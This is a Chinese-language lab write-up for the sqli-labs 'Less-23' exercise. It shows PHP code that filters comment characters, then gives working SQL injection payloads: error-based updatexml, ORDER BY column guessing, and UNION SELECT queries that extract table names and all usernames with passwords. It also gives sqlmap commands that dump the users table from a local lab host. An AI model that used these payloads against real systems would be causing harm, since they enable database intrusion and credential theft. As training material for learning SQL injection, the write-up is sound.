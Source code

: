 ```yaml
---
title: less23
url: https://www.yuque.com/u29002979/ep2zrx/xs62ebs63h03zyaa
---
```


```bash
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

通过源码发现**#和--都被被过滤为空字符串**
只有想方法将闭合符号消耗完毕，让后台能够接收，处理掉原有的闭合方式 单引号'

> Please input the ID as parameter with numeric value

```bash
id=-1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1
```

`**and '1'='1**`将后面的单引号闭合消耗完毕。

按照常规get型传参注入 <a name="rL8Hl"></a>

# 查找注入点

`?id=1'`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-23\index.php** on line **38**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

闭合方式单引号' <a name="lh1Tf"></a>

# 猜解列名数量

`?id=1' order by 4 **and '1'='1**`
`?id=1' order by 3 **and '1'='1**`
字段 3个 <a name="sFNaN"></a>

# 判断回显点

`?id=-1' union select 1,2,**'3**`
回显点2,3 <a name="xvLPE"></a>

# SQL注入

```bash
查看所有数据库名称
?id=-1' union select 1,(select database()),'3 
查看使用数据表名称
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),'3
查看字段名
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),'3
查看字段
?id=-1' union select 1,(select group_concat(username,0x7e,password) from users),'3
```

<a name="iqiEO"></a>

# sqlmap

```bash
探测注入点
sqlmap -u http://192.168.31.193/Less-23/?id=1 --batch
爆破数据库名
sqlmap -u http://192.168.31.193/Less-23/?id=1 --batch --current-db
爆破数据表
sqlmap -u http://192.168.31.193/Less-23/?id=1 --batch -D security --tables 
脱库
sqlmap -u http://192.168.31.193/Less-23/?id=1 --batch -D security -T users --dump
```
